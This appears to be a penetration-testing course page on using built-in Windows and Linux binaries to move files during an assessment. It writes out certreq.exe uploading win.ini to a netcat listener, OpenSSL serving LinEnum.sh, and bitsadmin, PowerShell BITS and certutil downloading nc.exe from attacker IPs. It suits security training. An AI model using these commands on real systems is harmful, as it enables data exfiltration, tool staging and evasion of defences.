 # Living off The Land

The phrase "Living off the land" was coined by Christopher Campbell [@obscuresec](https://twitter.com/obscuresec) & Matt Graeber [@mattifestation](https://twitter.com/mattifestation) at [DerbyCon 3](https://www.youtube.com/watch?v=j-r6UonEkUw).

The term LOLBins (Living off the Land binaries) came from a Twitter discussion on what to call binaries that an attacker can use to perform actions beyond their original purpose. There are currently two websites that aggregate information on Living off the Land binaries:

* [LOLBAS Project for Windows Binaries](https://lolbas-project.github.io)
* [GTFOBins for Linux Binaries](https://gtfobins.github.io/)

Living off the Land binaries can be used to perform functions such as:

* Download
* Upload
* Command Execution
* File Read
* File Write
* Bypasses

This section will focus on using LOLBAS and GTFOBins projects and provide examples for download and upload functions on Windows & Linux systems.

***

### Using the LOLBAS and GTFOBins Project

[LOLBAS for Windows](https://lolbas-project.github.io) and [GTFOBins for Linux](https://gtfobins.github.io/) are websites where we can search for binaries we can use for different functions.

#### LOLBAS

To search for download and upload functions in [LOLBAS](https://lolbas-project.github.io/) we can use `/download` or `/upload`.

![image](https://academy.hackthebox.com/storage/modules/24/lolbas\_upload.jpg)

Let's use [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) as an example.

We need to listen on a port on our attack host for incoming traffic using Netcat and then execute certreq.exe to upload a file.

**Upload win.ini to our Pwnbox**

Living off The Land

```cmd-session
C:\htb> certreq.exe -Post -config http://192.168.49.128/ c:\windows\win.ini
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

This will send the file to our Netcat session, and we can copy-paste its contents.

**File Received in our Netcat Session**

Living off The Land

```shell-session
AIceBear@htb[/htb]$ sudo nc -lvnp 80

listening on [any] 80 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

If you get an error when running `certreq.exe`, the version you are using may not contain the `-Post` parameter. You can download an updated version [here](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) and try again.

#### GTFOBins

To search for the download and upload function in [GTFOBins for Linux Binaries](https://gtfobins.github.io/), we can use `+file download` or `+file upload`.

![image](https://academy.hackthebox.com/storage/modules/24/gtfobins\_download.jpg)

Let's use [OpenSSL](https://www.openssl.org/). It's frequently installed and often included in other software distributions, with sysadmins using it to generate security certificates, among other tasks. OpenSSL can be used to send files "nc style."

We need to create a certificate and start a server in our Pwnbox.

**Create Certificate in our Pwnbox**

Living off The Land

```shell-session
AIceBear@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem

Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [AU]:
State or Province Name (full name) [Some-State]:
Locality Name (eg, city) []:
Organization Name (eg, company) [Internet Widgits Pty Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (e.g. server FQDN or YOUR name) []:
Email Address []:
```

**Stand up the Server in our Pwnbox**

Living off The Land

```shell-session
AIceBear@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Next, with the server running, we need to download the file from the compromised machine.

**Download File from the Compromised Machine**

Living off The Land

```shell-session
AIceBear@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

***

### Other Common Living off the Land tools

#### Bitsadmin Download function

The [Background Intelligent Transfer Service (BITS)](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal) can be used to download files from HTTP sites and SMB shares. It "intelligently" checks host and network utilization into account to minimize the impact on a user's foreground work.

**File Download with Bitsadmin**

Living off The Land

```powershell-session
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell also enables interaction with BITS, enables file downloads and uploads, supports credentials, and can use specified proxy servers.

**Download**

Living off The Land

```powershell-session
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

***

#### Certutil

Casey Smith ([@subTee](https://twitter.com/subtee?lang=en)) found that Certutil can be used to download arbitrary files. It is available in all Windows versions and has been a popular file transfer technique, serving as a defacto `wget` for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.

**Download a File with Certutil**

Living off The Land

```cmd-session
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```

***

### Extra Practice

It's worth perusing the LOLBAS and GTFOBins websites and experimenting with as many file transfer methods as possible. The more obscure, the better. You never know when you'll need one of these binaries during an assessment, and it'll save time if you already have detailed notes on multiple options. Some of the binaries that can be leveraged for file transfers may surprise you.

In the final two sections, we'll touch upon detection considerations regarding file transfers and some steps we can step to evade detection if the scope of our assessment calls for evasive testing.

